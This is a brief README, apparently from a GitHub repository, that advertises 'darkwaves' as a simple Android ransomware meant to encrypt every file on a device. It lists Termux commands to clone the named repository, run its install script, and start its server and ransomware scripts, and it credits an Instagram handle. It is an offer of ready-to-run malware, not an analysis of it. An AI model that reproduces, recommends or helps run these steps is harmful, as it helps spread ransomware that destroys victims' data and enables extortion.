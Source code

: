 # darkwaves
this is a simple android ransomware, it will encrypted all the files in your android device 😈

# how to install on Termux:

$ git clone https://github.com/Shadow8021/darkwaves.git

$ cd darkwaves

$ bash install.sh

$ python3 server.py

$ python3 ransomware.py

# author 
    Instagram @shadow8021
